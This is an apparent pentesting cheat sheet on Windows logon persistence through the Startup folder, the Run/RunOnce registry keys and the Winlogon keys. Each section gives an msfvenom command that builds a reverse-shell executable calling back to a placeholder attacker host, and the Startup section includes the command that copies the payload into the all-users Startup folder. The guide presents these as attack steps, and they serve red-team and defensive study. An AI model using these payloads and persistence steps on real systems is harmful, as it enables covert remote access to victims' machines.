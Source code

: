 
## Logon Triggered Persistence
### Startup folder
Adding malicious binary to startup folder may allow attacker to establish persistance.

Startup folderlocations:
```
For specific user - C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
For all users     - C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Create malicious executable:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe -o revshell.exe
```

Place the generated executable in a startup folder:
```
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

To trigger the generated executable log out and log in.

### Run / RunOnce
Modification of registries keys may allow attacker to establish persistance.

Attacker can force user to execute a program on logon via the follwing registries:
```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

Create malicious executable:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe -o revshell.exe
```

Attacker can create new entry in registries from above to point to generated executable. Entry should have `REG_EXPAND_SZ` type.

### Winlogon
Modification of registries keys may allow attacker to establish persistance.

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be usefull to gain persistence:
- `Userinit` points to `userinit.exe`
- `shell` points to `explorer.exe`

Create malicious executable:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe -o revshell.exe
```
